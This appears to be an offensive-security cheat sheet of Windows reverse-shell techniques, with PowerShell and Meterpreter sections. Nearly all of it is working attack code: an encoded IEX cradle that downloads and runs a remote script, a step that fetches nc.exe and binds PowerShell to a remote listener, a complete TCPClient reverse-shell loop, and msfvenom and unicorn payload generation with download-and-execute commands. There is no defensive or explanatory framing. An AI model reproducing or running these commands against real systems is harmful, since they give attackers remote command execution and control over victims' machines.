 ## PowerShell

Invoke-Expression (UTF-16LE):

```shell
echo -n "IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/[1]')" | iconv -t UTF-16LE | base64 -w0; echo
```

```shell
powershell.exe -NoP -EncodedCommand <BASE64_COMMAND_HERE>
```

1. [github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Invoke-WebRequest + `nc.exe` **[1]**:

```shell
PS > powershell -NoP IWR -Uri http://127.0.0.1/nc.exe -OutFile C:\Windows\Temp\nc.exe
PS > cmd /c C:\Windows\Temp\nc.exe 127.0.0.1 1337 -e powershell
```

1. [eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

System.Net.Sockets.TCPClient:

```shell
$client = New-Object System.Net.Sockets.TCPClient("<ip-address>",1337);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "# ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()
```



## Meterpreter

PowerShell + msfvenom:

```shell
root@kali:$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=127.0.0.1 LPORT=1337 -f exe > met.exe
PS > (New-Object Net.WebClient).DownloadFile("met.exe", "$env:TEMP\met.exe")
...start metasploit listener...
PS > Start-Process "$env:TEMP\met.exe"
```

PowerShell + unicorn **[1]**:

```shell
root@kali:$ ./unicorn.py windows/meterpreter/reverse_https LHOST 443
root@kali:$ service postgresql start
root@kali:$ msfconsole -r unicorn.rc
PS > powershell -NoP IEX (New-Object Net.WebClient).DownloadString('powershell_attack.txt')
```
